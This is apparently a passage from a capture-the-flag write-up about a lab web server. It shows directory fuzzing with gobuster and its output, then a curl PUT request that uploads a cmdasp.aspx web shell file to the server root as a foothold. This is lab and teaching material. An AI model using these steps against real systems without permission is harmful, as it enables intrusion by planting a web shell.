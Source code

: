 ### Directory Fuzzing

We will fire up gobuster to see if we can find some interesting directories to look at, so we can find a place to check if we can put a malicious file on the webserver.

```zsh
gobuster dir -u http://10.10.10.15/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 30
```
Here we have the result and we see a few directories, we will check if we can put a file on it.

```console
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.15/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/07 11:37:19 Starting gobuster
===============================================================
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
/_private (Status: 301)
===============================================================
2020/05/07 12:24:59 Finished
```
Unfortunately you cannot put a file on these. I tried using the command below but worked easily when I put them in the root directory

Used Curl to ```PUT``` a file on the server 

```zsh
curl -X PUT http://10.10.10.15/try.txt -d @cmdasp.aspx
```
![File has been uploaded via PUT](./images/put.png)
